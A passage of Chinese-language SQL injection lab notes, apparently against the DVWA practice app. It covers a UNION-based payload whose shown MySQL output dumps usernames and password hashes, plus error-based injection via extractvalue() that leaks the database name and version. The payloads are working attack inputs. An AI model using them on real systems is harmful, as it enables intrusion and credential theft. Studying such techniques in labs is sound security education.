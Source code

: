 ```sql
# 注入 SQL
1' union select user, password from users; #
```

```sql
# 底层 MySQL 执行结果
mysql> select first_name, last_name from users where user_id='1' union select user, password from users;
+------------+----------------------------------+
| first_name | last_name                        |
+------------+----------------------------------+
| admin      | admin                            |
| admin      | 5f4dcc3b5aa765d61d8327deb882cf99 |
| gordonb    | e99a18c428cb38d5f260853678922e03 |
| 1337       | 8d3533d75ae2c3966d7e0d4fcc69216b |
| pablo      | 0d107d09f5bbe40cade3de5c71e9e9b7 |
| smithy     | 5f4dcc3b5aa765d61d8327deb882cf99 |
+------------+----------------------------------+
6 rows in set (0.00 sec)
```



### 报错注入

利用数据库报错判断是有存在注入点

常用的特殊字符：`\`, `;`, `%00`, `)`, `(`, `#`, `'`, `"` 

这两个函数常用于报错注入：

- `extractvalue()`：用于从 XML 中获取指定的值
- `updatexml()`

---

函数 `extractvalue(xml_frag, xpath_expr)`：

1. `xml_frag`: 这是要处理的 XML 数据的字符串。
2. `xpath_expr`: 这是一个 XPath 表达式，用于指定你想从 XML 数据中提取的值的位置。

下面是一个使用 `EXTRACTVALUE()` 函数的简单示例：

```sql
SELECT EXTRACTVALUE('<book><title>Learn MySQL</title></book>', '/book/title');
```

在上面的例子中，`EXTRACTVALUE()` 函数从给定的 XML 字符串中提取书的标题，并返回值 "Learn MySQL"。

---

利用函数 `extractvalue(xml_frag, xpath_expr)` 报错获取信息，由于 `xml_frag` 接受任意值，所以主要利用 `xpath_expr` 解析特点来爆破：

1️⃣ 获取数据库名

```sql
mysql>  select first_name, last_name from users where user_Id = 1 and extractvalue(1, concat(0x7e, database(), version()));
ERROR 1105 (HY000): XPATH syntax error: '~dvwa5.5.54-0+deb8u1-log'
```
